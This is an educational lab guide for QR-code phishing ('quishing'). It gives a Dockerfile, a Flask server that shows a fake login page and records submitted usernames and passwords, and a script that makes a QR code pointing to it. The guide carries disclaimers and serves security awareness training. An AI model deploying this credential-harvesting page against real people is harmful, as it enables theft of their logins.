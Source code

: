 # Quishing (QR Code Phishing) Lab Setup

**DISCLAIMER:**  
This lab is for educational purposes only. Do NOT use these techniques outside of a controlled, authorized environment. Always follow ethical guidelines and obtain proper permissions.

---

## Overview

This lab will guide you through setting up a safe, isolated environment to practice and understand QR code phishing (quishing) techniques. You will:
- Set up a local web server to host a fake login page.
- Generate QR codes that point to your phishing page.
- Test the attack using your own devices in a controlled environment.

---

## Prerequisites

- A computer with internet access.
- [Docker](https://www.docker.com/get-started) installed (recommended for isolation).
- [Python 3](https://www.python.org/downloads/) (for a simple web server and QR code generation).
- A smartphone or device with a QR code scanner.

---

## Step 1: Set Up an Isolated Environment

**Option 1: Using Docker (Recommended)**
1. Install Docker.
2. Create a new directory for your lab:
   ```bash
   mkdir quishing-lab && cd quishing-lab
   ```
3. Create a `Dockerfile` with the following content:
   ```Dockerfile
   FROM python:3
   WORKDIR /app
   COPY . /app
   RUN pip install flask qrcode[pil]
   EXPOSE 5000
   CMD ["python", "server.py"]
   ```
4. (You will add `server.py` in the next step.)

**Option 2: Using a Virtual Machine**
- Set up a VM (e.g., with VirtualBox) and install Python 3.

---

## Step 2: Create a Fake Login Page

1. Create a file named `server.py` with the following content:
   ```python
   from flask import Flask, request, render_template_string

   app = Flask(__name__)

   LOGIN_PAGE = '''
   <h2>Login</h2>
   <form method="POST">
     <input name="username" placeholder="Username" required><br>
     <input name="password" type="password" placeholder="Password" required><br>
     <button type="submit">Login</button>
   </form>
   {% if creds %}
   <p style="color:red;">Captured: {{ creds }}</p>
   {% endif %}
   '''

   captured = []

   @app.route('/', methods=['GET', 'POST'])
   def login():
       creds = None
       if request.method == 'POST':
           username = request.form.get('username')
           password = request.form.get('password')
           creds = f"{username}:{password}"
           captured.append(creds)
       return render_template_string(LOGIN_PAGE, creds=creds)

   if __name__ == '__main__':
       app.run(host='0.0.0.0', port=5000)
   ```
2. (Optional) Add HTML/CSS to make the page look more realistic.

---

## Step 3: Build and Run the Lab Server

**If using Docker:**
```bash
docker build -t quishing-lab .
docker run -p 5000:5000 quishing-lab
```

**If using Python directly:**
```bash
pip install flask
python server.py
```

---

## Step 4: Generate a QR Code

1. Create a file named `generate_qr.py`:
   ```python
   import qrcode

   url = "http://<YOUR_LOCAL_IP>:5000/"
   img = qrcode.make(url)
   img.save("phishing_qr.png")
   print("QR code saved as phishing_qr.png")
   ```
2. Replace `<YOUR_LOCAL_IP>` with your computer's local IP address (e.g., 192.168.1.10).
3. Run the script:
   ```bash
   pip install qrcode[pil]
   python generate_qr.py
   ```

---

## Step 5: Test the Attack

1. Open the `phishing_qr.png` file.
2. Use your smartphone to scan the QR code.
3. The browser should open the fake login page.
4. Enter test credentials and observe the captured data on the page.

---

## Step 6: Clean Up

- Stop the Docker container or shut down the VM when done.
- Delete any test data.

---

## Safety & Ethics

- Never use these techniques on real users or systems without explicit permission.
- This lab is for learning and awareness only.

---

## References

- [OWASP QR Code Security](https://owasp.org/www-community/attacks/QR_Code_Attacks)
- [Flask Documentation](https://flask.palletsprojects.com/)
- [qrcode Python Library](https://pypi.org/project/qrcode/)

